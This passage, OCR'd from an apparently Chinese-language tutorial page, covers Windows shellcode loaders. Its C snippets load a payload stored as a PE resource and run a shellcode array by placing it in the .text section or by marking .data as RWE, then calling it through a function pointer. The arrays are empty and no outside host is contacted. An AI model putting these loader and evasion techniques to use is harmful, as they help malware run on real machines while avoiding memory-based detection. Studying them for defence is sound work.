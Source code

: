 ```
HGLOBAL shellcodeResouceData = LoadResource(NULL, shellcodeResource);

```

下面是完整的源码

```
DWORD oldProtect;
BOOL pt;
HRSRC shellcodeResource = FindResource(NULL, MAKEINTRESOURCE(IDR_PAYLOAD_BIN1), L"PAYLOAD_BIN");
//找到shellcode资源，获取它的资源句柄
//它的名称为IDR_PAYLOAD_BIN1，类型为PAYLOAD_BIN
HGLOBAL shellcodeResourceData = LoadResource(NULL, shellcodeResource);
//读取其中的数据
DWORD shellcodeSize = SizeofResource(NULL, shellcodeResource);
//读取数据⻓度，开辟内存空间读⼊，获得该空间指针

```

##### 4.无API加载shellcode

我们希望我们的shellcode被分配在可执行文件的.text部分中，这样就不需要分配RWX内存块来存储shellcode。此外，<br/> 我们需要将shellcode数组强制转换为函数指针并调用它-

```
#pragma section(".text")

__declspec(allocate(".text")) char goodcode[] = {  };

int main()
{
    //(*(void(*)())(&amp;goodcode))();
    ((void(*)())(&amp;goodcode))();
}

```

利用

设置data段可写 执行shellcode

```
#include &lt;Windows.h&gt;

#pragma comment(linker, "/section:.data,RWE")//设置data段可写,就这么短短一行代码
unsigned char shellcode[] = {  };
//全局变量会保存在.data中，

int main()

{
    ((void(*)())(void*)shellcode)();//执行shellcode
}

```
